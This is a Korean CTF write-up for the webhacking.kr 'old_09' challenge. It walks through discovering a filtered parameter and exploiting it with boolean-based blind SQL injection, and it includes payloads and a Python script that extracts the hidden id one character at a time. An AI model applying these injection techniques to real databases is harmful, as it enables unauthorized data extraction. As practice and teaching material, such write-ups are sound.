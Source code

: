 ## old_09

![vmware_36cSFiuMJ6](https://user-images.githubusercontent.com/79683414/144971973-2d9a77fa-1096-4dc7-9789-443b4e944420.png)

1,2,3 링크가 있고 Password 를 제출하는 Input form 이 있다.

정보를 좀 더 필요하다.

<br>

_1을 클릭했을 때_

![vmware_zJGWY4rcqQ](https://user-images.githubusercontent.com/79683414/144972381-b4068dbb-16d7-4c99-bbe4-7a194c6a69c3.png)

<br>

_2를 클릭했을 때_

![rCXTKyheNa](https://user-images.githubusercontent.com/79683414/144972460-269919ae-1725-4a43-85a4-a64085ed0bf9.png)

<br>

_3을 클릭했을 때_

![bPiPunRWw1](https://user-images.githubusercontent.com/79683414/144972509-7829e425-e55c-488a-820b-b345ecd13746.png)

<br>

_password 입력 시_

![awEp8lo0ve](https://user-images.githubusercontent.com/79683414/144972552-0fb77942-9dec-4cc0-90b1-5420a7d458fa.png)

<br>

모든 Request 가 GET 을 통해 요청된다.

1,2,3을 클릭하면 그 값이 no 에 세팅되고 GET을 통해 전달된다.

3번의 힌트를 보아하니 SQL 인젝션 문제가 확실한 듯 한데,

Password 에 인젝션이 가능한지 테스트 해봤지만 아무런 반응이 없었다.

<br>

no 에 인젝션이 가능한지 Burp Suite 를 이용해 테스트 했다. 

인젝션을 테스트 할 땐, Burp suite 의 Repeater 기능이 유용하다.

`'or 1=1 #` 을 urlencode 후 입력해주었다.

![vmware_qkSoEjnCbD](https://user-images.githubusercontent.com/79683414/144974101-23fdc1e0-faef-4df1-9a25-132986d0af46.png)

<br>

여러가지 인젝션 값들을 시도해봤는데 `공백문자, ", ', +  `  등의 필터링이 적용되어 있다.

Boolean Base 인젝션이 가능할 것 같다.

여기서, 쿼리를 예상해보면 아래와 같다.

<br>

__select id from chall9 where no="$_GET['go']"__

<br>

최종적으로는 `no=3` 인 id 를 찾아야 한다.

우선 Secret 의 길이부터 알아내보자. 필터링을 우회하기 위해 사용할 것들이다.

- if(조건문, 참일 때 반환값, 거짓일 때 반환값)
- length(string) : 길이를 반환
- substr(str, start_index, offset) : 문자열에서 문자(열) 추출
- like() : 조건

<br>

no=1 인 경우를 테스트 해보겠다.

`no=if(조건, 1, 0)` 일 때 결과 값을 이용하여 인젝션을 수행할 수 있다.

<br>

Boolean 인젝션을 위한 쿼리는 아래와 같다.

__select ... no=if(length(id)like(4), 1,0))__

<br>

그런데,

위의 쿼리는 like 의 사용법이 살짝 독특하다.

지금 까지 사용한 like 는,

__select ... where id like "%pple"__

<br>

if(length(id)like(4),1,0)) 은 length(id)like(4)가 참이면 1을 반환할 것 같지만, 결과적으로,

id 의 길이가 4 이고, no=1 을 만족하는 id 값을 반환한다. 결과를 확인해 보기 위해 테스트해봤다.

![vmware_nptsZLsKnT](https://user-images.githubusercontent.com/79683414/144976712-aeb7218b-86f4-4691-b756-2424e51733cd.png)

![vmware_9TL97ABMaZ](https://user-images.githubusercontent.com/79683414/144980156-507ed988-bb98-43cc-b045-7e46ad3b278e.png)

두 번째 사진에서, length(id)like(5) 인 "Apple" 이 존재 하므로 참 값인 "2"를 반환하여 Banana 를 출력할 것 같지만 아무것도 출력되지 않는다.

두 조건 모두 만족해야 하기 때문이다.

<br> 이를 이용해서 ID 의 길이 값을 알아보자.

__no=if(length(id)like(1), 3, 0))__

이렇게 하면 no=3 인 ID의 길이가 참일 때 no=3 에서 출력되었던 결과가 출력될 것이다.

<br>

길이를 알아낸 후

__no=if(substr(id,1,1)like("a"), 3,0))__

을 이용하여 1자리씩 id 값을 알아낼 수 있다.

<br>

번거로우니 파이썬을 이용했다.

```python
import urllib.request, re, string


def get_response(query):
    url = "https://webhacking.kr/challenge/web-09/index.php?no={}".format(query)
    res = urllib.request.urlopen(url)
    read = str(res.read().decode("utf-8"))
    if re.search("Secret", read):
        return True


def find_length():
    for i in range(1, 20):
        query = "if(length(id)like({}),3,0)".format(i)
        if get_response(query):
            print("len: ", i)
            return i


def find_id(length):
    result = ""
    for i in range(1, length+1):
        for e in string.ascii_letters:
            query = "if(substr(id,{},1)like('{}'),3,0)".format(i, e)
            print(query)
            if get_response(query):
                result += e
                break
    return result


if __name__ == "__main__":
    id_len = find_length()
    flag = find_id(id_len)
    print("ID : ", flag)
```

![pycharm64_lO0LabZU3z](https://user-images.githubusercontent.com/79683414/144980892-2f3e7a1b-0fd3-457a-9a50-706e94cecb4a.png)
